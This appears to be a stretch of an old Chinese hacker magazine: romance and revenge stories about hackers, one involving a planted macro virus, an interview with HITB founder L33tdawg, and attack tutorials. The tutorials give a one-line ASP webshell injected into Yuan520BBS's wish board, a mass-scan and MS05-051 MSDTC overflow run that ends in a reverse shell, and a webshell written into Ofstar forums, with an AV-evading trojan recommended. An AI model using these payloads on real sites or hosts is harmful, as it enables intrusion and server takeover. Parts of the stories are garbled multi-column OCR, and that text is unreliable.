从此我可以放心地把我的小说放在E-mail里了，而且我也改掉了孤芳自赏的毛病。虽然我有王牌在手，但是毕竟人外有人，天外有天嘛。忘记补充了，小白在我的“勾引”下成为我的男朋友了，此时我正在电脑前一边打字一边等着他把饭喂到我的口中呢！

> 每个人都有阴暗的一面，就如同再阳光的人也总有自己的影子。

### 正面

老王说得很明白，这个方案的文档必须本周内恢复。到现在林峰的头脑还一片混乱，无法找出一个合理的解释。这或许是个阴谋：一方面事情发生得很蹊跷，手法也比较隐晦；而另一方面，则是最有嫌疑的人太让他无法相信……总之，无论是怎样的结局他都无法接受。

公司的同事已经开始议论纷纷了，没有人知道为什么在 Microsoft Office SharePoint 的协同工作下，文档会自动删除，并且还席卷了整个关于这个 Case（注：方案案子=Case）的其他文件。太过于信任微软的实力和太过于相信林峰的能力，使得大家都没有做相应的备份。

因此恢复数据成了他的责任，但是一般的方法看来很难奏效，公司将硬盘交给了专业的数据恢复公司来处理。然而事情总要有个“责任”的说法，此事一定要找个人来扛。如果无法找到真正的主谋，林峰就会被扫地出门。“拿自己该拿的钱，做自己该做的事”，这是公司员工的座右铭，也是一条铁的法则。这是职场的游戏规则，也是每一个公司员工的义务。

宏病毒并不稀奇，嵌套在 Word 文档中是很平常的事情。但是这种在协同状态下发作的就比较罕见了。根据事后的网络流量分析和本地探索，发现制作这个病毒的人员是进行破坏而没有将资料外泄，所以现在大致可以肯定“他”是公司的内部人员。老王是做技术出身的，应该发现了这个问题，当然也能理解这个人所具有的潜在威胁。

林峰以前顶撞过老王，不过在认识到自己的能力和技术都比他低一个层次后，性格比以前温顺多了。然而人的本性很难改变，性子直的人总是不受欢迎。老王敢怒不敢言地不满，所以林峰经常会接到一些很难完成的任务。但是不知是运气还是别的，竟然每次都能完成得很漂亮。然而现在这个 Case 的自动删除事件，却让他觉得头皮发麻、无法处理。

林峰突然心头闪过一丝不满，觉得帮助淑儿做这个文案仿佛是错误的：假如不做这个文案，大概不会让自己落到这么一个危险的境界。但这只是一瞬间而已，很快他就释然了。为了自己心爱的人，做什么都是应该的。尽管淑儿对他的态度一直是不温不火，到现在，他都没有明白淑儿到底是不是喜欢他。

## 侠隐仙踪

因为以前大家各自编写独立的东西，最后才整合，合作的效率低下，林峰为了改变这种状况才专门教会大家用 Microsoft Office SharePoint 来协同工作。教学很完美，这以后从来没有出现过问题，而且合作的成绩让老王很满意。大家都知道林峰在追求淑儿，所以这次的案子也是很快就完成了，然而意想不到的却是感染了一个奇怪的病毒。

林峰很是怀疑老王想辞他，甚至怀疑这个病毒就是老王自己弄出来的。不为别的，仅仅为了让林峰走人而已。这段时间，林峰曾在早会的时候当面提出过一些案子的反对意见。老王很是民主，不过只是假象。他是个城府很深的人，前期做的某些细小的事情你根本发现不出来，然而到最后走上正途的时候，仔细体会他走的每一步，都能让林峰不寒而栗。

假如老王为了辞掉一个跟随他多年的下手，而不引起大家的愤怒，这种看起来是偶然的事故就会很有说服力了。林峰明白老王的手段，做事非常武断，尽管到现在为止，公司并没有因为他的武断而造成过什么损失。但是，潜伏在内心的魔鬼，总是适时地慢慢滋生、发芽、长大。

### 侧面

硬盘数据经过专业公司的物理处理，已经恢复了。大家都紧张地在做着后期工作，相信不会耽误什么时间，案子能正常地交到客户的手里。不过，事情并没有结束，这件事情的主谋还没有找到。老王正在考虑这个问题：到底是谁做了这个病毒，是林峰么？他有这个能力，不过不会是因为自己平日对他的刻薄要求吧？……

老王觉得这种专制很适应现在的公司概况，所谓的成王败寇，都是以结局定英雄的。走到办公室门口，交谈并不容易。

正考虑着，林峰走了进来。老王示意他坐下，然而他并没有这样，而是递交给老王一份材料。老王随意看了看，是关于 Microsoft Office SharePoint 协作状态下的安全防护策略。文字的风格很严谨，整个事件分析得很清晰，解决方案也做得很到位。这，就是性格正直的人的优点吧！……

翻到最底页，则是林峰的辞职报告。老王指着辞职报告问他：“这是什么意思？”

林峰道：“王总，我没办法找出这个病毒的制造者。”按了按颈项，似乎考虑了什么，“我没有完成您交给的任务。对于对您所造成的损失，我只能说抱歉。”他的话语平静如常，却很冷。

老王透过他的眼睛，看到了林峰辞职后的后续动作。“行，先考虑考虑吧。呵呵，压力太大吧？给你放一个月假。我相信这是竞争对手的一个阴谋。”老王说道。

在林峰惊异的目光中，老王示意他可以出去了。他明白，无论如何不能让林峰因为这个原因就辞职，所以不管是谁制造的病毒，这个事情到这里都必须结束了。

扪心而论，老王放他一马，已经很打击林峰了。然而更让他受到打击的事情在他离开老王办公室的时候发生了。淑儿正微笑地对着他：“林经理，一起吃饭去吧！给您说点事情好不？”林峰不敢相信地接受了淑儿的邀请，并听她讲了一个故事。

### 暗面

我已经无法容忍了，每个人的心理承受能力都存在一个底线。这条底线如同狮子一般吞噬着我的所谓道德、正义。所以，我决定要让他理解我的愤怒。

不过中国是个讲法律的国家，尽管王总对我不仁，我却不能对他不义。但这一切只是潜在的本因，表现在大众面前的老王是个德高望重的老者，是个成功的企业家，更是个一挥手能弄死一片的决策者。

所以如果我明目张胆地报复了他，那么自己肯定会戴上铁链子、被五花大绑地送进监狱。我不能那么蠢，毕竟本姑娘也是受过高等教育的四有新人。所以我要用一点点隐蔽的手段给他惨痛的教训。

忘记说明了，我是某个不能告诉你名字的公司的某个不能告诉你名字的部门的一名秘书。嗯，秘书很奇怪么？秘书就不能报复了？笑话，有人扇你一耳瓜子你会因为自己是秘书就不还手么？为了报复王总，我设计了一个很完美的计划。而且为了实现它，我已经蓄意很久了。老王没有什么失败的地方，唯一的就是他有时候并不了解手下人的具体实力。

这天照例的早会，老王公布了下本周的工作计划，我认真地做了笔记和会议记录，并且详细地帮助他为下属布置了任务。而这个报复的计划，现在仅仅是开始。

“林经理，很忙啊？我想求您点事。”然后笑眯眯地将周计划递到他手上。

“淑儿，瞧你说的哪里话，我一点都不忙，”林峰慌张地站起来摆摆手，“我看看。嗯，这周其实很轻松的了，有什么事情你说就好，我尽量帮你。”他的态度一向是这么热情。

我将本属于自己的部分工作交到了他的手里，不多不少，至少这周林峰不会太轻松。接着，我又央求其他人帮我一起做这个案子。啊，现在手头没事了，终于轻松了。不过这只是开始，如果仅仅是消极怠工来报复王总未免太简单了一点。

这个 Case 是个比较大的企划，我们是使用 Microsoft Office SharePoint 来协同实现的。除了林峰那部分没问题，其他人的文档都会有宏病毒。不过单独存在并不会发作，只有在协同状态下根据一定的关键字存在才能被引发。

本来我是想连林峰那份也做成含有病毒的，不过最终却没这么做：一方面林峰对于网络安全的敏锐和他的职位一样让我敬佩，另一方面我不想给他造成什么不好的印象。嘿嘿，厚道的人老天都不忍心折磨他的。

想起来这个方法还是很完美的，公司机器上的病毒防火墙都是基于特征码的，所以很难发现这段需要集合后才能发挥作用的东西。可是王总看来还是挺明智的，竟然想到专业级的数据恢复。报复显然没有达到预期的那种效果。不过，这事儿还是让他着实苦闷了两天。我笑了笑，大概也只能做到这个程度了吧！

这个事情啊，总得对不起的就是林峰了。事情尽管已经算是解决了，但是找不到病毒的来源，王总不会轻易饶了他。我忽然觉得，他对我付出这么多，是不是我也应该付出一些？

### 反光点

“你……你说的付出一点，就是请我吃饭吧？”林峰懒懒地问道。

“那倒不是。”淑儿笑道，“本来是想如果你辞职，我会照顾你几个月的吃穿住行的，不过看来没必要了。咦？你发什么呆啊？”

林峰并没有发呆，只是突然觉得，哪怕真的辞职了，哪怕贫穷困苦到一无所有，也是值得了。所以尽管这件事情完全没有按照预定计划在进行，但是结局恰恰是大家都愿意看到的。

## 黑客行动

海边一粒沙

我男朋友是黑客，这是我经常对网友说的话，可想而知他其实一直都是我的骄傲。当初就在他拯救了我 E-mail 里一百多篇小说的时候，我就决定把这条畅游在网络世界中的小鱼吃掉……

我一直都以为他只会编程、弄软件，对于他的个人作风问题和网恋成风的突发事件，我放一百二十个心。我相信这世界忠贞不渝的感情就是我们了……

其实爱情就是从天堂一直滑落到人间的平凡中，我已经不再像以前刚刚知道他是黑客时那样兴奋了……

知道他可能不爱我的时候，我觉得已经很晚了。那天我敲打着键盘，正沉浸在小说中的风花雪月……我回过头一看对话，却居然是一个当初像我一样的女孩子在表白着自己的崇拜。

我把水放在他的桌子上，他惊慌失措地关掉电脑，我心忽然焦虑不安了……

……我故作若无其事地问了问，他一脸惊慌地回答“没……没什么”。我假装不经意地说：“就是放水这么一会儿功夫，怎么了？”

无力是心虚后的通病。我断定事情没那么简单，他紧张的行为、遮掩的口气出卖了他的坚定。我们故作转身走开，心里却很不是滋味……

晚上他带我回他妈家的时候，我借故不舒服留下来。他前脚走，我就打开了他的电脑，上了他的 QQ……

暗夜玫瑰：“小叶白龙，明天我生日，我不想和朋友过，一起去放烟花吧！”  
小叶白龙：“明天？明天不行，我得做网站。”

我随口回答了一句，随后她又发来信息。那晚我记下了这个女孩的 QQ 号，也顺手删了今天我和那女孩的聊天记录。

两个小时后小白从他父母家回来了，给我带了一些吃的……我什么都没吃，一个人回到房间坐在电脑前，看着写了一半的小说发呆……

尊重别人的隐私，那些道貌岸然的小说故事原来是欺骗稚嫩的工具。我不甘示弱，他戴着黑客的面具到处沾花惹草……

我以为他和我吵架只是发泄一下心中的不满，不到天亮就会像往常一样认错哄我开心，可这一次他却没有……

计划在一会儿功夫就拟定好了，我让几个朋友加了那小妮子，然后全部集合到一家附近网吧，启动代号为001的报复行动……

不论是共享入侵，还是盗出程序，我们都用尽了……想到我那些朋友如今名声中的“广海帮”，这让他和她必得不祥了……

小白不屑地说：“我知道天外有天，黑客王国有能人，但是能人不是你们那几只小虾小蟹吧？”说完抬起高傲的头，走进了自己的房间，砰的一声关上了门……

爆发，如江河决堤之势。这天我们团队不下十人地涌进网吧，进行代号为002的反击行动……（上半页为连续正文，多栏排版，包含人物对话与叙事内容）……在此我郑重地向那朵暗夜玫瑰和小叶白龙说声对不起。

## 菜鸟MM与菜鸟“侠盗”

海边一粒沙

每天上网除了浏览论坛、聊 QQ 外，其余的时间全都是在我的邮箱里修改、撰写那些我爱如生命的小说……（下半页为连续正文，多栏排版，包含“Wood”等人物对话与事件叙述）……“好吧！明天本人正好有时间，你来钓鱼台请我吃肯德基吧。”

## 侠隐仙踪

晕了，够狠。但为了保全我的文章，只好含泪签下了这不平等条约，在自己的日用开销上残忍地扣出了一百多元钱啊！

Wood 冷冷地说：“用户名、密码给我，还有在这几个小时内不准登录邮箱，以免影响我的工作。”

我满口答应着，然后望眼欲穿地等待在电脑旁。终于在三个小时后 Wood 大侠说：“搞定，明天记得来钓鱼台找我，记得手里拿着本《格林童话》。”天啊，真幼稚啊！

不过 Wood 再怎么可恨，但是 E-mail 确实完璧归赵了。为此我对 Wood 就更加崇拜了。当然那顿肯德基是逃不掉的，既然他有本事给我找回来，也一样可以让邮箱再次消失。怀着破财免灾的心态，终于跑遍了整个石山买了一本最便宜盗版的《格林童话》。

第二天准时九点十分踏上了773路车，颠簸一个多小时之后到达了钓鱼台肯德基门前。身边一个大学生模样的男孩子和我一样地站在门前，只是他在那里聚精会神地看着报纸，我在人群中搜索着。这一景象为肯德基招揽了不少的顾客，简直就是北京一道靓丽的风景线。足足等了 Wood 一个小时零三分钟四十二秒，身边的大学生放下报纸对我说：“海边一粒沙是吧，你好，我是 Wood。”

我差点就一口血喷了出来，二话没说就把 Wood 带进了餐厅。再和他呆上一分钟我都会觉得要崩溃，所以还是速战速决的好。这个家伙好像为了这顿肯德基已经好几顿都没有吃饭了。吃了四个汉堡、N个鸡腿、N杯饮料后，我已经傻眼了。再这样下去他的肚子不爆炸，我的钱包也会爆炸的。所以在他出去接电话的时候，我已经付账逃之夭夭了。

在当月惨重的金融风暴之后，又一次精神的摧残之后，我彻底地崩溃了。那日一编辑约稿，和蔼可亲地说：“在两个小时之后，你把你的文章发到我的邮箱里吧！”

我好奇地问：“为什么是两个小时之后，而不是现在呢？”

编辑非常耐心地说：“因为163现在正在系统维护中。”

我不禁越发奇怪地说：“那是什么意思啊？”

编辑说：“就是你输入用户名和密码后页面上一片空白，163都会定期维护的，几个小时之后自然就好了，这个你不用担心。”

听完了编辑的话，我都快要爆炸了。迅速把 Wood 从 QQ 中揪了出来。在我的强烈谴责中，Wood 总结了以下几点：

- 第一：是你主动求我的，并且我没有使用任何方法引诱、欺骗你来求我的。  
- 第二：针对肯德基事件，我完全征求了你本人的意愿，我并没有使用误导和暴力等过激举动来强迫你破费。根据《中华人民共和国人权法》，我完全给予和尊重了你的人权。

我彻底地服了，一切委屈尽在无言中。讲理我无话可说了，拼技术好像我也不是他的对手。只能用“报仇雪恨，又岂在此朝此夕”这样的语录安慰自己受伤的心灵。可 Wood 也觉得对我有些良心不安，所以在临下线之前说：“答应你，有什么计算机上的麻烦来找我。”为这句话心里终于有了一点安慰，哪里知道这又是一次有计划的预谋。

几天后妹妹哭丧着脸跟我说网站被人家入侵了，里面的东西被删除和剪贴了不少，而且论坛不能正常地运作了，很多会员登录不上去。看着妹妹可怜巴巴的样子，忽然想起了 Wood。反正他答应要帮助我的，白用谁不用啊！

谈起帮妹妹主持正义，顺利潜入对方的网站，给他一个小小的教训，顺便帮忙修复一下网站的事，Wood 很快就答应了，但是补充说：“第一：你要先……被人家反击，把赖本人拒绝都忙；第二：为了达到我欲而让我帮助人使他人……绝对不行；第三……”

N 系规矩后，我们点头答应：“放心吧，我们只想拿回自己的东西和尊严。”Wood 这时才算是真正答应帮我们这个忙了。

一个小时后，我们准时到达了 Wood 的家。一开门我们姐妹两人真是大开眼界啊，那屋子比猪窝强不了多少，可与伊拉克战场有得一拼。我们跨越了喜马拉雅山、太平洋，还有几个丘陵之后，坐在了沙发上。Wood 具体地了解情况后说：“现在心情不好，看了屋子就没兴趣，要不……”还没等他的话说完，我们姐妹俩已经奔赴到各个基层中去了。

等到猪窝变成了人间仙境，Wood 翘着二郎腿坐在电脑前。看着他运用那些代码和英文字幕，我好奇地说：“你能不能帮忙讲解一下？”

Wood 不耐烦地对我说：“你真烦，你那位妹妹就很安静嘛。算吧，我给你讲讲，下次请我去必胜客吧！”

### 与世界级黑客 L33tdawg 的第一次亲密接触

孟方明[-273℃@EST]

Dhillon Andrew，男，马来西亚人。出生于1979年2月1日，HITB首席执行官。HITB每年举行的安全年会是国际化技术交流的一个重要平台，从2002年至今已经举办了5届，中国著名的安全焦点就是其会员之一。今天就让我们走近 Dhillon Andrew，走近 HITB！

superlone：早上好，老兄。我们开始吧，请先介绍一下你自己吧。

L33tdawg：我叫 Dhillon Andrew aka L33tdawg，是 Hack In The Box（http://www.hackinthebox.org）的创始人和首席执行官（CEO）。

superlone：什么是“Hack In The Box”？是一个组织还是一个自由团体呢？

L33tdawg：事实上 HITB 一共有两个部分组成（HITB，即“Hack In The Box”），一是自由团体，一个是商业网络安全公司。HITB 团队及其网站起始于2000年1月，当时创建 www.hackinthebox.org 和 forum.hackinthebox.org 两个站点主要是提供给团队使用以及为网络安全方面的新闻、研究和讨论提供资源。从2000年开始，我们网站的注册用户超过了5万，其中包括1万5千名论坛注册用户，并呈成长趋势。在2002年我们举办了第一届安全会议——HITBSecConf，即 Hack In The Box 安全会议。该会议是一个非盈利性的由 HITB 组织的活动，并得到了一些网络安全专家的帮助。该项会议每年都在马来西亚举行。2002年的 HITB 安全会议当时只有马来西亚的一些本地人参加，而在2003年的 HITB 安全会议才真正地走向国际化，邀请了 LSD 研究小组的所有成员参加了此次会议。LSD 即“The Last Stage of Delirium”研究小组，是著名的 RPC dcom 漏洞的发现者。此次也是 LSD 的4个成员第二次参加 HITB 安全会议，这也是 LSD 最后一次公开露面（因为 LSD 在2004年已经解散了）。在 HITB2004 年度的安全会议上，Theo de Raadt（OpenBSD 的创建者）和 John Draper（aka Captain Crunch）是此次会议的主要演讲者。同时，Adam Gowdiak（前 LSD 成员）独立发现了 J2ME 的安全漏洞，此次发现影响了众多手机制造商，包括摩托罗拉、诺基亚、索尼爱立信等等。2005年的安全年会中，Mikko Hypponen（来自于 F-Secure 公司）介绍了未来的手机病毒，Tony Chor（微软组项目经理）在此次会议上第一次向大众介绍了 IE7 浏览器的一些新的安全特性等等。

superlone：为什么要创建 HITB 呢？我是说是什么第一次驱使你创建 HITB 的？

L33tdawg：这个问题问得好。在2000年初的时候，创建网站或者说项目仅仅是一种爱好吧，可以让我有点事干，变得忙碌些。我当时只是想去模仿 hackernews.com（现在已经不存在了），但是有点小小的改变，就是每月我们都会发布一份电子杂志。在 HITB 的网站上你可以看到1~2期的电子杂志，在网站上你还可以看到一篇叫“A year in the box”的文章，介绍了网站第一年的成长历程。

superlone：嗯，现在的 HITB 在不断地发展壮大，那么你可以谈一下你的下一步计划吗？

L33tdawg：主要的计划是放在 HITB2006 年安全年会上，除了安全年会我们还将多搞一些培训方面的活动。因此在2006年我们将在马来西亚举办一次安全会议（2005年举办了两次，一次是巴林，一次是在马来西亚），届时我们将邀请 Bruce Schneier、Mark Curphey 和 John Viega 担当我们的主讲人。我们还邀请了 Raoul Chiesa、Van Hauser（来自 THC 组织）、Philippe Biondi 以及其他一些著名的安全专家。还有一些研究人士，他们向 HITB 提交了他们的研究结果，因此我们也将邀请他们参加 HITB 安全会议。他们中有来自中国、韩国、日本、菲律宾、新加坡、马来西亚、泰国、印尼以及澳大利亚，我们的邀请函将于2006年2月27日公布。

superlone：2006年的安全年会是否有什么主题？有的话，主题是什么呢？

L33tdawg：我们的会议从来都没有什么主题，这也许跟其它的会议很不一样。我们会议的主旨就是拥有最前沿的和最新的攻防资讯。只要你参加了 HITB 安全会议，可以肯定地说你可以学到很多新东西，也会为一些高深的技术讲解而拍案叫绝。另外我们的会议一直保持非营利性，因此我们的会议定位在能让个人和学生都能负担得起。如果你能够早些参加双日制双课程的培训活动，那么个人可以享受90美元的优惠（普通是120美元/人），而学生只需要45~50美元。需要说明的是，我们需要承担24位来自各个国家的讲授者的各项费用，而且会议是在吉隆坡享有盛名的宾馆举行，这些开销并不少。因此，我们需要一些公司赞助商来协助举办，以“保持知识免费”。

说到这里，HITB 安全会议并不是一个“交易”会议——所有的演讲将被录像以确保在演讲期间不会出现实况现象。所有的赞助商在展览区以展出者的身份可以接受与会人员关于展出产品以及各项服务的访问，而与会人员也可以在展览区找到感兴趣的产品。

superlone：好的，如果有人想参加 HITB 的会议，他们应该怎么做呢？简要地说一下参加会议需要哪些步骤呢？

L33tdawg：我们的在线注册页面以及支付途径（信用卡等）将于三月底启用，因此大家只要注册完毕并通过支付页面付款后，即可以参加会议。注册可以在 conference.hackinthebox.org 和 conference.hitb.org 两个站点上进行。

superlone：好的。聊过 HITB，现在我们聊聊你自己吧。你觉得你是个黑客吗？

L33tdawg：我想是的。在我专职于 HITB 的工作之前，我做过很多网络安全相关职位的工作。

superlone：想成为一名黑客，除了专业技术以外，你觉得我们还需要学些什么？

L33tdawg：这取决于你想成为什么……

## 黑客人物面对面

样的黑客。在每天即将结束的时候，满怀激情地去学习和发现更多关于计算机的东西，并努力了解它们是如何工作和运行的，这样的人可以称作是黑客。并不仅仅是“打破”安全，还要去修补这些安全漏洞以使其更加完美。

superlone：关于中国的安全行业，你了解多少呢？还有中国的黑客以及他们的水平？

L33tdawg：关于中国的安全行业，我并不十分了解。至于中国黑客，我们邀请了安全焦点，冒昧地说安全焦点拥有一些最好的研究人员。还记得是安全焦点的人第一个根据 LSD 发现的 RPC DCOM 漏洞发布了针对所有中文版 Windows 操作系统的 exploit。

superlone：除了安全焦点之外，你还知道哪些中国的安全小组或者团队呢？

L33tdawg：除了安全焦点，我知道你是邪恶八进制的成员。我肯定中国的安全小组有很多，但是你知道的，我看不懂中文也不会说中文，所以跟他们联系有点困难。

superlone：你是如何踏入安全领域的？

L33tdawg：我 12 岁的时候就有了第一台电脑。在这之前，我一直对电子类的东西比较感兴趣（比如录像机等）。当我拥有了第一台电脑的时候，我就已经在做一些黑客的事了——解决如何使我的电脑得到更多的内存以便游戏能够加载运行。我的第一台电脑是 XT 8088，配置包括 4.77MHz 的 CPU 和 640KB 的内存，2 个 5.25 英寸的软驱（360KB），没有硬盘。后来我一直希望能得到更多硬件来更新我的机器。我十四五岁的时候，在当地的一个电脑商店里找了一份兼职工作……从 98 年到 2001 年，我先后为各种出版物包括《PC World》《Computer World》《HWM》以及《IDG》等担任技术类编辑。

2002 年我又回去干我的老本行（普通的工作）一直到 2004 年。其中 02 年到 03 年我在一家专门做 SMS（手机短信）技术的公司担任 CTO（首席技术官）。2004 年我开始专职于 HITB 的工作，一直到现在我还一直在做着这些工作。

superlone：哦，我知道了。真是一段令人惊奇的经历。那么，你使用的操作系统是什么，哪一个又是你最喜欢的呢？

L33tdawg：嗯，我用的是 Linux（主要用在我的服务器上）。我还有一个装有 Gentoo PPC 系统的老 iBook G3 电脑，我一般用它查收 email 和聊天。我也使用 Windows XP 工作站和装有 OSx86 系统的康柏 Evo N610c 电脑，最近 OS X 成了我的最爱，它的确是个非常棒的操作系统，设计得非常好。

superlone：在中国，有很多年轻人对黑客技术非常痴迷，不知道你对此有何看法？

L33tdawg：嗯，我猜他们很有激情也很有兴趣，这是很好的。但是他们需要记住一点：他们的行为是有后果的，他们需要控制自己。他们应该正确地使用他们所掌握的知识，将自己的能力使用在正确的目的上。

superlone：好的，谢谢你的劝告。世界变化太快，网络安全行业也是如此。很多人其中也包括我都想在网络安全领域谋求一份工作，您有什么建议吗？

L33tdawg：需要再一次强调的是你必须要真正地感兴趣，要对网络安全技术充满激情。不要仅仅只是为了挣钱才进入这个领域。不论你做什么工作，你都应该去热爱它——只有这样，你才会付出 100% 的努力。还要明白基础学历是蛮有价值的，因为现在几乎每个人都有这些学历，所以你要确保自己有别人没有的东西。或许有一个额外的证书或者去上一些课程来提高自己的能力。学一门新的编程语言或者自己开发一个项目（比如写一个简单的端口扫描程序或者简单的 TCP 监听程序等），通过这种方式你可以学到一些新的东西以及如何将你学到的知识应用于实践。

superlone：非常感谢。你给了我们一次非常精彩的采访。那么，在最后按照惯例，你有什么要对读者说的吗？或者是些建议什么的。

L33tdawg：永远不要停止学习！我实在是找不出更好的话说了。谢谢你能花时间采访我，希望你已经得到了你想要的问题的答案了。

superlone：不，说谢谢的应该是我。请你留下你的联系方式或者 email 可以吗？我相信看过此次采访的朋友会有许多都希望与你交流的。

L33tdawg：dhillon@hackinthebox.org，或者使用这个 l33tdawg@hackinthebox.org 信箱，因为前者有很多的邮件过滤！哈哈！下次见，再见。

（sagi 注：本来是想将完整的英文访谈一起登出来的，而且无数次是这么认为的，可是最终因为篇幅实在有限，只好登了翻译过的，不能不说是本次采访的唯一遗憾，英文原版采访详见 X 论坛。）


### 一句话搞定 Yuan520BBS

刘艳丽

偶然路过一个网站，在其论坛前呆了好几分钟，愣是没看出来采用的是何源代码程序！不过，其右下角的一个漂浮窗口倒是给了我一些提示，如图 1。打开百度，用其中的“您还没有注册或登录”加上“Powered By”作为关键词进行查找，终于发现此论坛的模式和某个 Yuan520BBS 论坛是一样的。Yuan520BBS？这个论坛偶还是头一次见到！又让百度帮着查了一下“Powered By Yuan520BBS”，还真有不少使用者，看来偶是孤陋寡闻了，既然如此，那就借此机会对其研究一下！


图 1

解开下载的源码压缩包，发现其中有很多 ASP 文件，如果从查找注入漏洞入手，可能要耗费一些时间，不如先从数据库入手，看能否为一句话木马找到一个栖身之地！打开 DATABASE 文件夹，如图 2，其数据库格式竟然全为 ASP 格式，不知是否存在漏洞？下面就来一一测试。首先在网址中输入“http://127.0.0.1/2005sp1/database/%23music.asp”进行测试，返回如下错误信息。


图 2


使用 ACCESS 打开本地的“#music.asp”——音乐数据库，发现其中有一个“notdownload”表，看来该数据库做了防下载处理。接着用浏览器打开“#yuan520bbs.asp”——论坛主数据库，如图 3，显示的是乱码，没有出现错误提示。


图 3

打开“#yuan520bbs.asp”查看，果然没有做防下载处理，真是一大疏忽。这样一来，如果论坛中的某个版块对提交数据过滤不严，就可以把一句话木马写入到数据库中。正要动手测试论坛中的一些版块，忽然想起如果管理员更改了数据库名称，用暴库的方法是否可以找到数据库的物理路径？打开论坛的数据库链接文件“conn.asp”，其中还真有“On Error Resume Next”容错语句，看样即使能够写入一句话木马到“#yuan520bbs.asp”中，也会因为得不到数据库名称而半途而废。还剩一个“#wish.asp”——许愿数据库，希望会寄托于此了。在一番测试后，果然不负所托。许愿版块就是与众不同，不仅继承了“#yuan520bbs.asp”的缺点——未做防下载处理，而且在其数据库链接文件“config.asp”中，也没有容错语句，其中只有这么一句：DBPath=Server.MapPath("../database/#wish.asp")，由此得出，Yuan520BBS 的许愿版块是一句话木马的理想栖身之地。

OK，目标锁定，下面就来对该论坛实施行动。在某地址栏中输入：“http://URL/bbs/wish1/wish.asp”（注：经过本地测试，即使不用会员身份登录，也能打开该许愿版块），然后将“wish.asp”前的“/”改为“%5c”提交，却发现网页并没有像在本地测试时显示出数据库的物理地址。难道论坛中加了容错语句？还是没有显示出来？点右键查看源文件，哈！在文本的最末端找到了数据库地址，如图 4。数据库地址及名称均是默认的。对于暴库，这里再多说几句，有些 Yuan520BBS 在使用“%5c”暴库后，源文件内也没有数据库地址，也不知是什么原因？不过可以试一下其默认数据库名称，在对一部分 Yuan520BBS 论坛测试时，发现其许愿版块所调用的“#Wish.asp”都是默认名称，很少有改动的，可能管理员认为其非主要数据库而忽视了。所以，在暴库无法得到数据库地址时，可以采用乱码或网页快车来下载该数据库，注意，数据库名称中的“#”要改为 16 进制“%23”，如能链接成功，则说明使用的是默认地址及名称。


图 4

有了数据库地址，接下来就可以向数据库写入一句话木马了。许愿版块按许愿方式分为“漂流瓶”和“漂浮云”两种，以下用“漂流瓶”做介绍。打开漂流瓶许愿页面：http://URL/bbs/wish1/wish.asp，点击“投下许愿瓶”，在打开的许愿窗口内写下个人信息及愿望。经本地测试后，其“信箱”和“祈愿”中均可写入 ASP 语句，这里在“祈愿”中写入一句话木马，如图 5，提交后，再用一句话木马客户端来连接，将其中的 URL 地址改为许愿数据库的地址：“http://url/bbs/database/%23wish.asp”，然后再点“提交”。

```asp
<%execute request("|1|")%>
```


图 5

如果成功的话，就会打开一个新窗口，如图 7。一个简单的 ASP 一句话木马生成了，有了这个模板，就可以写入更强大的 ASP 后门了。

如何补这个漏洞呢？方法也很简单：

- 第一，改数据库格式为 mdb 或其他非可执行的扩展名；
- 第二，对提交的许愿信息用 `server.HTMLEncode` 或其他方法加以过滤，不仅可以防止一句话木马，还能杜绝跨站攻击。

> （本文所涉及的相关工具：一句话木马连接客户端 .htm，光盘中有收录）

## 一个人的战争

### 漏洞简述

### 堆溢出一脉之 MSDTC 远程溢出初体验

2005 年 11 月，微软公布了 Windows 最新的安全漏洞，MSDTC（微软分布式事务处理协调器）服务远程溢出漏洞就是其中严重的一个。12 月初，swan 老大在网上公布了一个 POC 版本的 exploit，在 exploit 中 swan 提到这个版本成功率很低……

这是个堆溢出漏洞。堆溢出向来以难调试、难利用著称。文章简要介绍了堆溢出和栈溢出的差别，以及在 Windows 下相关内存分配区域的特点。

### 漏洞机理

MSDTC 是系统默认安装并通常自动启动的服务。在 Windows 2000 SP4 下，MSDTC 监听 TCP 端口 1025 和 3372。不同系统版本对应端口有所不同（如 XP 常见 1026，Windows 2003 常见 1030）。

出于测试目的，可先使用扫描器进行大范围扫描。文中使用了针对 ms05-051 的扫描器进行局域网扫描测试（见图 1）。


找到存在安全漏洞的主机后，按照溢出程序参数格式进行测试：`Target IP`、`Target Port`、`Your IP`、`Your Port`、`type` 等。该程序是反向连接溢出方式，需要先在本地监听端口再触发溢出。

```bash
ms05-051.exe 192.168.4.189 1025 192.168.x.x xxxx
```

测试到第二台电脑的时候，溢出成功了，nc 成功得到了对方的一个 cmdshell，如图 3。


图 3

虽然这个漏洞的溢出成功率不高，可毕竟也是一种入侵的方法嘛。再说，溢出后又是 system 权限，也是值得收藏的了。注意一下，这个漏洞只能利用一次，溢出后 msdtc 就死掉了。

### 三、堆溢出

随着 64 位系统的推广，堆栈溢出渐渐退出了舞台，堆溢出露出了其闪耀的一面。研究堆溢出也许是大势所趋吧，希望读者朋友能够和我一起努力学习，将来的某一天也能独立写出堆溢出漏洞的 exploit 来！

> （文中涉及到程序 ms05-051.exe 以及 ms05051 扫描工具已经收录于光盘中）

关于 Ofstar 的安全问题，最近讨论得挺多的，在《黑客 X 档案》2005 年第 11 期上，洪蓝的《细说××》已经给大家带来了 Ofstar 论坛的三个漏洞，不过那些漏洞说大不大，说小不小，搞破坏、玩玩小把戏还可以，至于获得 webshell 嘛，还是差那么一小步，让我们这些小黑们总感觉不爽。今天我们就来突破一下，教教大家如何在获得 webshell 上做进一步的探测吧。


### 一、漏洞利用

首先，我们在百度中搜索关键字“Powered by Ofstar 2.6.0”，就会找到许多 Ofstar 论坛了，我们随便选择一个吧，打开漏洞利用工具，把刚才找到的论坛网址填入“论坛地址”中，然后点击“注册论坛帐号”按钮，我们就注册一个帐户并登录（登录时要记住保留 cookie），如图 1。


图 1

下一步，直接点击“提交”按钮，就进行了搜索，此处我们要搜索的是此论坛没有的关键字，看看返回的结果，就是表示成功了，如图 2。

再点击“获取 webshell”，那么 webshell 的地址就立即出来了，如图 3。


图 3

就是 bbsdata/fucksb.php，这里的木马为“网址 + bbsdata/fucksb.php”，不过此时如果你直接打开此网页是看不到任何东西的，因为这个工具写入的是一句话木马，我们可以用 lanker 微型管理器来访问，检测一下，看看我们的操作是否成功了。我们提交一下环境变量，嘿嘿，有反应了，是 WINNT 系统，如图 4。


图 4


图 2

剩下的事情，我想大家比我还熟悉了，就不再继续操作下去了，无非就是传个比较好控制的马儿，这里推荐箭射鱼写的 saiy.php，可逃过许多杀毒软件的测试。

然后，要做什么就由你们自己玩了，下面我们就进行漏洞的深入探测。

### 二、漏洞分析

出现漏洞的两个关键文件，分别是根目录下的 search.php 和 require 目录下的 schall.php 这两个文件，先来看看 search.php。

